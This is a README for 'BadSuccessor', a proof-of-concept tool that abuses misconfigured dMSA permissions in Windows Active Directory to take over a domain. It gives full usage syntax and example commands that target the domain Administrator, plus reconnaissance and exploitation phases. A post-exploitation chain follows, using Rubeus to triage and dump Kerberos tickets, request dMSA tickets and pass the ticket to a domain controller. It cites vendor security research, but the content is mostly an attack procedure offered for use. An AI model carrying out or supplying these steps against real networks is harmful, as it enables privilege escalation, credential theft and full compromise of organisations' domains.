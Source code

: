 # BadSuccessor
A PoC for the dMSA Active Directory Domain Takeover deemed BadSuccessor published by @YuG0rd - Akamai.

Blog Post: [BadSuccessor: Abusing dMSAs for AD Domination](https://kreep.in/badsuccessor-abusing-dmsas-for-ad-domination/)

## Overview
BadSuccessor exploits misconfigured Delegated Managed Service Account (dMSA) permissions in Windows Active Directory to escalate privileges. The tool creates malicious dMSAs that inherit the privileges of high-value service accounts, enabling lateral movement and privilege escalation in modern AD environments.

## Attack Requirements

- User account with write permissions to target OUs
- Windows Server 2025 domain controllers present in the domain (dMSA support required)

## Usage
The tool contains two modules, one to identify exploitable OUs and one to create the dMSA.
```
Usage:
  BadSuccessor find
    Enumerate and list all Organizational Units you have write access to.

  BadSuccessor escalate -targetOU <OU=…,DC=…> -dmsa <name> -targetUser <full DN> [-dc-ip <host>] -dnshostname <hostname> (-machine <name$> | -user <username>)

Examples:
  BadSuccessor find
  BadSuccessor escalate \
    -targetOU "OU=Keep,DC=essos,DC=local" \
    -dmsa kreep_dmsa \
    -targetUser "CN=Administrator,CN=Users,DC=essos,DC=local" \
    -dnshostname kreep_dmsa \
    -machine braavos$ \
    -dc-ip 192.168.10.15

  BadSuccessor escalate \
    -targetOU "OU=Keep,DC=essos,DC=local" \
    -dmsa kreep_dmsa \
    -targetUser "CN=Administrator,CN=Users,DC=essos,DC=local" \
    -dnshostname kreep_dmsa \
    -user john.doe \
    -dc-ip 192.168.10.15

Parameters:
  -targetOU    DN of the OU container (e.g. OU=TestOU,DC=domain,DC=com)
  -dmsa        Name for the new dMSA (sAMAccountName without '$')
  -targetUser  Full DN of the existing service account (e.g. CN=SvcUser,CN=Users,DC=domain,DC=com)
  -dnshostname dNSHostName to give to the new dMSA for Kerberos authentication
  -machine     Machine account for msDS-GroupMSAMembership. Include the $, e.g: braavos$
  -user        User account for msDS-GroupMSAMembership (sAMAccountName without domain)
  -dc-ip       (Optional) FQDN or IP of the DC to bind against for schema-aware writes

Note: You must specify either -machine OR -user, but not both.
```

### Phase 1: Reconnaissance
Identify target OUs where you have write permissions:
```
BadSuccessor.exe find
```
![image](https://github.com/user-attachments/assets/1ee8b241-10a0-4b7b-a1f2-cb8194a9dbc0)

### Phase 2: Exploitation
Create a malicious dMSA to inherit target account privileges:
```
BadSuccessor.exe escalate \
  -targetOU "OU=Servers,DC=corp,DC=local" \
  -dmsa backup_svc \
  -targetUser "CN=BackupAdmin,CN=Users,DC=corp,DC=local" \
  -dnshostname BackupSVR \
  -machine BRAAVOS$ \
  -dc-ip 10.0.1.10
```
![image](https://github.com/user-attachments/assets/3b6fea12-d22d-46f5-a5c0-9100c1f7c061)

## Post-Exploitation Chain
Once the malicious dMSA is created, extract credentials using standard Kerberos attacks:
### 1. Ticket Enumeration
```
# Using Rubeus
Rubeus.exe triage

# Using Kerbeus BOF
krb_triage
```
### 2. TGT Extraction
```
# Rubeus
Rubeus.exe dump /luid:<target_luid> /service:krbtgt /nowrap

# Kerbeus BOF  
krb_dump /luid:<target_luid>
```
### 3. dMSA TGS Request
Requires Rubeus PR #194 for dMSA support
```
Rubeus.exe asktgs /targetuser:<dmsa_name>$ /service:krbtgt/<domain> /dmsa /dc:<dc_fqdn> /opsec /nowrap /ticket:<b64_ticket>
```
### 4. Privileged TGS Request
```
.\Rubeus.exe asktgs /user:<dmsa_name>$ /service:cifs/<dc_fqdn> /opsec /dmsa /nowrap /ptt /ticket:doIF2DCCBdS...
```

## References

- [Akamai: dMSA Attack Research by @YuG0rd](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)
- [Microsoft dMSA Documentation](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/delegated-managed-service-accounts/delegated-managed-service-accounts-set-up-dmsa)
